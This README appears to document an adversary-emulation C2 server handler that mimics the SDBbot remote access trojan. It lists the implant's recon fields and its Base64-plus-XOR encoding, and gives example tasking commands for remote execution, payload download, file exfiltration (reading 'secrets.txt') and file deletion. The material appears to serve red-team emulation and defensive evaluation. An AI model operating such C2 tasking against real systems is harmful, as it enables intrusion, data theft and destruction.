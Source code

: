 # SDBbot TCP Handler

The SDBbot TCP Handler functions as the server-side counterpart to the SDBbot implant, and communicates with it over TCP. The handler is configured to do the following:

- respond to implant beacons or task requests with the implant' session ID or tasks
- register a new implant with the control server, or indicate that a session already exists for the implant
- process the task response data and upload to the control server
- accept tasking from `evalsC2client.py` and send to implants when requested

## Components

The handler consists of a TCP listener that listens on a specified address/port.

The first packet sent by the implant will contain an acknowledgement DWORD that will be used as the implant's session ID. The C2 server will respond to the implant's packet with the DWORD, and the implant will then send a recon packet containing the following discovery information:

- `ver`: Malware version number
- `domain`: Target domain name
- `pc`: Target hostname
- `username`: Target user name
- `cc`: target host country code
- `os`: Target Windows version
- `rights`: User rights
- `proxyenabled`: Whether or not proxy is configured

After the implant has been registered with the C2 server, it will automatically set a task to receive the recon packet from the implant. All implant packets must contain the DWORD header. All data will be in JSON format, with the following possible fields:

- `header`: Acknowledgement DWORD and UUID
- `command`: Tasking command number
- `response`: Task output
- `fileName`: File name for file exfiltration
- `fileContents`: Contents of the exfiltrated file

## Encryption

All communication to/from the SDBbot implant will be Base64 encoded and XOR'd. The entire JSON packet will be encoded.

## Usage

### Building

To build the control server binary, run the following command from the `evalsC2server` directory:

```
go build -o controlServer main.go
```

### Configuration

To enable and configure the SDBbot TCP handler within the control server, provide a `sdbbot` entry in your handler configuration YAML file (see example below). Adjust the host and port values as necessary.

Example:

```
sdbbot:
  host: 10.0.2.11
  port: 8080
  enabled: true
```

Run the `controlServer` binary as `sudo` and monitor the output to see SDBbot handler updates. Ex:

```
sudo ./controlServer -c ./config/your_handler_config.yml
```

### Testing

Unit tests for the SDBbot TCP handler are available in the `sdbbot_test.go` file. To run these tests, run the following command from the `evalsC2server` directory:

```
sudo go test ./...
```

To run only a single test, navigate to the `evalsC2server\handlers\sdbbot` directory and run:

```
sudo go test -run NameOfTestFunction
```

### Tasking

To submit a task to the C2 server, pass the task information to the REST API server in a JSON dictionary string containing the following fields:

| Field | Data Type | Necessity | Description |
| ------------ | ----------- | ----------- |----------- |
| id | string | required | The command ID of the task the implant will execute. A table detailing the different tasks is available below. |
| payload | string | optional | The name of the server-side payload to deliver as part of the task. |
| arg | string | optional | Command line arguments for the implant to execute OR paths for file upload/download. |

The following table contains the various acceptable commands and their meanings:

| Command      | Command Number      | Arguments | Implant Output | Description |
| -----------  | ------------------  | --------- | -------------- | ------------|
| "recon" | 42 | None | Recon packet | Recon (automatic task, do not set) |
| "execute" | 2 | CLI arguments | Process output of CLI args | Command execution |
| "download" | 15 | Payload/file name and path | None | File ingress (C2 -> Implant) |
| "read" | 24 | File path | File contents | File exfiltration (Implant -> C2) |
| "delete" | 26 | File path | None | Delete file |

Use the following format to submit the commands from the `evalsC2server` directory:

```
./evalsC2client.py --set-task <UUID> '{"id":"<id>", "payload":"<payload name>", "arg":"<CLI args or file path>"}'
```

Example commands:

- "execute": Task command execution of `whoami`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"execute", "arg":"whoami"}'
  ```

- "download": Task file download of `myPayload`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"download", "payload": "myPayload", "arg":"/path/to/write/myPayload"}'
  ```

- "read": Task file upload (read file contents) of `secrets.txt`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"read", "arg":"/path/to/secrets.txt"}'
  ```

- "delete": Task delete file of `secrets.txt`

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"delete", "arg":"/path/to/secrets.txt"}'
  ```

### Troubleshooting

## CTI References

1. <https://www.proofpoint.com/us/threat-insight/post/ta505-distributes-new-sdbbot-remote-access-trojan-get2-downloader>
2. <https://securityintelligence.com/posts/ta505-continues-to-infect-networks-with-sdbbot-rat/>
